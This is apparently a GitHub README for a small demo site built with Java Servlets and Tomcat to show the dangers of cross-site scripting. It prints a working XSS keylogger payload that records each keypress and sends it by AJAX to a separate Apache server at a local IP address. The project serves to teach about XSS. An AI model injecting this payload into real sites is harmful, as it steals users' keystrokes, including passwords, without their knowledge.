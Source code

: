 # XSS-Demo
I made this website using *Java Servlets* for giving a demo of **XSS and its dangers**.

I hosted the website on my **Tomcat** Server and used **Apache** for **Keylogging**.

![XSS](https://github.com/Miraj50/XSS-Demo/blob/master/XSS_Demo.gif)

The *payload* used for Keylogging:
```
document.addEventListener('keypress', function() {
	console.log(arguments[0].key);
	$.ajax({
		type: 'GET',
		url: 'http://192.168.0.105', #apache
		data: { 
			'key': arguments[0].key, 
		},
	});
});
```
